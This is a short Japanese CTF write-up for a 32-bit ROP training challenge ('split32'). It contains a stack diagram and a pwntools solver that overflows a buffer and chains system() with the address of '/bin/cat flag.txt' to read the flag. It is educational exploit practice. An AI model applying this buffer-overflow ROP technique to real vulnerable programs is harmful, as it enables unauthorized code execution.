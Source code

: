 \- 低位アドレス

#### exploit後

\+ 高位アドレス

|アドレス| 内容 |
| ----- | :--------------------------------------: |
| esp -> |  |
| |  |
| ebp - 0x28 |                 AAAA                 |
| |                   ....                   |
| ebp -> |                system()のアドレス 80483e0                |
| ebp + 0x4 or system()のesp | hoge |
| ebp + 0x8 | /bin/cat flag.txt |


\- 低位アドレス



## solver

```
from pwn import *

BINARY = "./split32"
ELF = ELF(BINARY)

context.os = "linux"
context.arch = "i386"
context.binary = BINARY

p = process(BINARY)

rop = b"A" * 44 
rop += p32(ELF.symbols["system"]) # get eip and run system()
rop += b"HOGE" # return address of system()
rop += p32(0x0804A030) #address of "/bin/cat flag.txt"

log.success(f"ROP chain : {rop}")

p.sendline(rop)
flag = p.recvline()
flag = p.recvall().split(b'\n')[-2]
log.success(f"FLAG: {flag}")
```


